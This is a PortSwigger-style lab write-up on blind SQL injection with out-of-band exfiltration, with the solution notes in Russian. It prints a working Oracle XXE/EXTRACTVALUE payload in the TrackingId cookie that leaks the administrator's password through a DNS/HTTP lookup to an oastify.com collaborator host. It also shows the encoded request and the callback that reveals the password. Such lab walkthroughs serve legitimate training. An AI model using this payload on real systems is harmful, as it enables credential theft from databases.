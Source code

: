 # Blind SQL injection with out-of-band data exfiltration
PRACTITIONER

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Решение
Беру пейлоад из решения:
```
 UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.9eolwycqlbp0aig71optk2mp0g67u1iq.oastify.com/"> %remote;]>'),'/l') FROM dual--
```
Прогоняю его через URL-encoding и подставляю к значению кукиса `TrackingId` после апострофа:
```
GET /product?productId=2 HTTP/2
Host: 0aeb00a403704423808c0882005b00be.web-security-academy.net
Cookie: TrackingId=O2bNheVZZ6UffvVz'%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%45%58%54%52%41%43%54%56%41%4c%55%45%28%78%6d%6c%74%79%70%65%28%27%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%65%6e%63%6f%64%69%6e%67%3d%22%55%54%46%2d%38%22%3f%3e%3c%21%44%4f%43%54%59%50%45%20%72%6f%6f%74%20%5b%20%3c%21%45%4e%54%49%54%59%20%25%20%72%65%6d%6f%74%65%20%53%59%53%54%45%4d%20%22%68%74%74%70%3a%2f%2f%27%7c%7c%28%53%45%4c%45%43%54%20%70%61%73%73%77%6f%72%64%20%46%52%4f%4d%20%75%73%65%72%73%20%57%48%45%52%45%20%75%73%65%72%6e%61%6d%65%3d%27%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%27%29%7c%7c%27%2e%39%65%6f%6c%77%79%63%71%6c%62%70%30%61%69%67%37%31%6f%70%74%6b%32%6d%70%30%67%36%37%75%31%69%71%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%22%3e%20%25%72%65%6d%6f%74%65%3b%5d%3e%27%29%2c%27%2f%6c%27%29%20%46%52%4f%4d%20%64%75%61%6c%2d%2d; session=HLjwpNnqu94MAndxVMFkhbVMn0agvCQZ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aeb00a403704423808c0882005b00be.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
Через некоторое время в коллаборатор приходит запрос:
```
GET / HTTP/1.0
Host: n2ba3u4dhcbt0r8jx224.9eolwycqlbp0aig71optk2mp0g67u1iq.oastify.com
Content-Type: text/plain; charset=utf-8
```
Логинюсь как administrator:n2ba3u4dhcbt0r8jx224. Задание выполнено.
